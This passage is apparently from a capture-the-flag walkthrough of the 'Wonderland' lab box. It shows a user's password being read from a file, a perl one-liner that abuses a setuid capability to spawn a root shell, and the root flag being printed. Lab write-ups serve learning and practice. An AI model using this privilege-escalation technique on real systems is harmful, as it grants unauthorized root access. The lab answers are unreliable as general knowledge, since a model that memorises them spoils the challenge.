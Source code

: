 ```


## Hatter

```

hatter@wonderland:/home$ cd hatter/
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ 
```

**Why Is Raven Like A Writing Desk?** ***Because it can produce a few notes, tho they are very flat; and it is never put with the wrong end in front!***


No sudo
```
hatter@wonderland:/home/hatter$ sudo -l 
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

Lets look at linpeas again.

Ohh yee we can run perl, maybe we can exploit those files with capabilities.


### Get Root 

<img src="images/perl_gtfobins.png">


```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# ls
linpeas.sh  password.txt
# whoami
root
# 
```

```
# cd alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# cd /root
# ls
user.txt